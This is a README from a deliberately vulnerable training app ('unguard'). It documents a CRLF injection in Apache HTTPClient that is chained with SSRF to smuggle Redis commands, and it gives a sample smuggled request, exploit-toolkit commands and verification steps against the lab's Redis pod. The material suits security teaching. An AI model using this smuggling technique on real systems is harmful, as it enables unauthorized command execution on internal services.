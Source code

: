 # CRLF injection

A user can [inject CRLF sequences](https://owasp.org/www-community/vulnerabilities/CRLF_Injection) into the server-sent 
HTTP request and therefore set arbitrary HTTP headers, leading to possible 
[request smuggling](https://portswigger.net/web-security/request-smuggling) to execute arbitrary Redis commands.

## Technical Details

The used version of the Apache
HTTPClient [contains a vulnerability](https://issues.apache.org/jira/browse/HTTPCLIENT-1974)
that allows attackers that control the value of an HTTP header to inject CRLF sequences. An attacker can therefore
control parts of the request and can add arbitrary text (e.g. HTTP headers). It is possible to combine this with the
[SSRF vulnerability](../ssrf/README.md) and smuggle [RESP](https://redis.io/docs/reference/protocol-spec/) data inside the HTTP request and
therefore send commands to the internal Redis.

When abusing this, an HTTP request can look something like this:

```http request
GET /something 
X-Expected-Header: value # injecting a newline in the user controllable path here to control the line below
SET key value # any redis commands here
HTTP/1.1
Host: 127.0.0.1:6379
User-Agent: curl/7.52.1
Accept: */*
Content-Type: text/plain
...
```

## Preconditions and Requirements

For this exploit to work you need:
* [unguard](../../../docs/DEV-GUIDE.md) deployed and running
* [unguard-exploit-toolkit](../../INSTALL.md) set up

## Exploitation

Make sure to login first

```shell
$ ug-exploit login <USERNAME>
```

Next, send your payload. Make sure to specify the Redis instance that is reachable from the frontend. 
Within Docker or K8s, this should be `unguard-redis:6379`.

```shell
$ ug-exploit redis --redis-host unguard-redis:6379 ./exploits/crlf-injection/payload/hackedflag
```

You can use any Redis client to verify that the exploit has worked. For convenience, you can SSH into the redis pod and
use the Redis CLI:

```shell
$ kubectl exec -i -t -n unguard unguard-redis-6668588958-tm8l9 -c redis -- bash # specify your pod name
$ redis-cli
127.0.0.1:6379> GET hacked
exploitworked
```

## Further Details

* [CRLF injection vulnerability in setting/adding HTTP headers - Apache HttpComponents](https://issues.apache.org/jira/browse/HTTPCLIENT-1974)
* [What is a CRLF injection? - OWASP](https://owasp.org/www-community/vulnerabilities/CRLF_Injection)
